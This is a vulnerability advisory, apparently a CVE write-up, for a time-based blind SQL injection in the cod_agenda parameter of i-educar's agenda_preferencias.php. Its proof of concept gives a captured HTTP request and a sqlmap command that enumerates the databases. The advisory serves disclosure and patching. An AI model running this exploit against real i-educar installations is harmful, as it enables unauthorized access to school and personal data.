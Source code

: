 # SQL Injection (Blind Time-Based) Vulnerability in cod_agenda Parameter on agenda_preferencias.php Endpoint

---

## Summary

A SQL Injection vulnerability was identified in the `agenda_preferencias.php` endpoint of the _i-educar_ application, specifically in the `cod_agenda` parameter. This vulnerability allows attackers to execute arbitrary SQL commands on the backend database, potentially compromising the confidentiality, integrity, and availability of application data.

---

## Details

**Vulnerable Endpoint:** `/agenda_preferencias.php`  
**Parameter:** `cod_agenda`

The application fails to properly validate and sanitize user input in the `cod_agenda` parameter. As a result, attackers can inject crafted SQL payloads that are executed directly by the database. This could allow database enumeration, data exfiltration, modification, or denial of service via time-based delays.

---
## PoC

Save the request in req.txt file:

```
POST /intranet/agenda_preferencias.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/intranet/agenda_preferencias.php
Cookie: [COOKIE]
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

tipoacao=Editar&cod_agenda=2&envia_alerta=0&agenda_display=2

```

Then use sqlmap:  
`sqlmap -r req.txt --risk=3 --level=5 --dbs --dbms=PostgreSQL --batch `

<img width="806" height="1023" alt="image" src="https://github.com/user-attachments/assets/6f9254d0-08ed-4b8a-a3e1-4240e6d8b2d8" />


## Impact

- **Unauthorized data access:** Retrieving sensitive information such as credentials, personal data, or configuration details
    
- **Database enumeration:** Extracting schema names, tables, and column structures
    
- **Data manipulation:** Inserting, updating, or deleting database records
    
- **Denial of Service (DoS):** Using time-based injections to disrupt application availability
    
- **Potential privilege escalation or RCE:** Depending on the database configuration and functions available
    

This vulnerability can lead to full compromise of the database and expose sensitive application and user data.

## References

[CVE-2025-9606](https://www.cve.org/CVERecord?id=CVE-2025-9606)

[VulnDB-321784](https://vuldb.com/?id.321784)

[I-Educar – Official Repository](https://github.com/portabilis/i-educar)

## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr) 

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)